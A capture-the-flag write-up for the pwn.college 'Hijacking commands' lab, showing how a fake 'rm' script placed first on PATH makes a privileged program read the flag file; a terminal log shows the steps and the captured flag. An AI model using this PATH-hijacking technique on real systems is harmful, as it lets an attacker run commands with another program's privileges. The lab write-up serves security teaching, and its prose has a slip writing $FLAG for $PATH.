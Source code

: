 # Hijacking commands

The description says that the program will delete `rm` command but not print the flag.
We have to create a shellscript wich is `rm` and invoke `cat /flag` in it.
After that we have to add `/home/hacker` directory by `PATH="/home/hacker:$FLAG"`.
After this we have to run `/challenge/run` and we will get the flag.

```bash
muizz@LAPTOP-VF1FT9IQ:~$ ssh -i ./key hacker@dojo.pwn.college
Connected!
hacker@path~hijacking-commands:~$ nano rm
hacker@path~hijacking-commands:~$ ls -l rm
-rw-r--r-- 1 hacker hacker 0 Oct 17 17:23 rm
hacker@path~hijacking-commands:~$ chmod a+x rm
hacker@path~hijacking-commands:~$ ls -l rm
-rwxr-xr-x 1 hacker hacker 0 Oct 17 17:23 rm
hacker@path~hijacking-commands:~$ PATH="/home/hacker:$PATH"
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /home/hacker/rm. Executing!
hacker@path~hijacking-commands:~$ cat flag
cat: flag: No such file or directory
hacker@path~hijacking-commands:~$ cat /flag
cat: /flag: Permission denied
hacker@path~hijacking-commands:~$ cat /flag
cat: /flag: Permission denied
hacker@path~hijacking-commands:~$ sudo cat /flag
sudo: workspace is not privileged
hacker@path~hijacking-commands:~$ su cat /flag
su: user cat does not exist
hacker@path~hijacking-commands:~$ nano rm
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /home/hacker/rm. Executing!
pwn.college{casYCBxABQIbgmSDfqe8sXgQqj2.ddzNyUDLwMjN0czW}
hacker@path~hijacking-commands:~$
```

This is how I solved it
